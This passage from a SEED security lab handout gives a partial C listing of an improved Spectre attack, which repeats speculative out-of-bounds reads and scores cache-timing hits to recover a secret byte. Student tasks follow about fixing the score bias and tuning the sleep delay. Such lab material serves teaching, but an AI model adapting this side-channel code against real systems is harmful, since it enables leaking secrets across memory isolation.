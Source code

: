 Listing 5:SpectreAttackImproved.c

```
static int scores[256];

void reloadSideChannelImproved()
{
......
for (i = 0; i < 256; i++) {
......
if (time2 <= CACHE_HIT_THRESHOLD)


scores[i]++; /*if cache hit, add 1 for this value */
}
}

void spectreAttack(size_t index_beyond)
{
... omitted: same as that in SpectreAttack.c ...
}

int main() {
int i;
uint8_t s;
size_t index_beyond = (size_t)(secret - (char*)buffer);

flushSideChannel();
for(i=0;i<256; i++) scores[i]=0;

for (i = 0; i < 1000; i++) {
printf("*****\n"); ¿
spectreAttack(index_beyond);
usleep(10); ¡
reloadSideChannelImproved();
}

int max = 0;
for (i = 0; i < 256; i++){
if(scores[max] < scores[i])
max = i;
}

printf("Reading secret value at index %ld\n", index_beyond);
printf("The secret value is %d(%c)\n", max, max);
printf("The number of hits is %d\n", scores[max]);
return (0);
}
```

Your tasks. Please compile and run `SpectreAttackImproved.c`, and do the following tasks:

- You may observe that when running the code above, the one with the highest score is very likely to be `scores[0]`. Please figure out why, and fix the code above, so the actual secret value (which is not
    zero) will be printed out.
- Line 1 seems useless, but from our experience on SEED Ubuntu 20.04, without this line, the attack
    will not work. On the SEED Ubuntu 16.04 VM, there is no need for this line. We have not figured out
    the exact reason yet, so if you can, your instructor will likely give you bonus points. Please run the
    program with and without this line, and describe your observations.
- Line  2 causes the program to sleep for 10 microseconds. How long the program sleeps does affect
    the success rate of the attack. Please try several other values, and describe your observations.
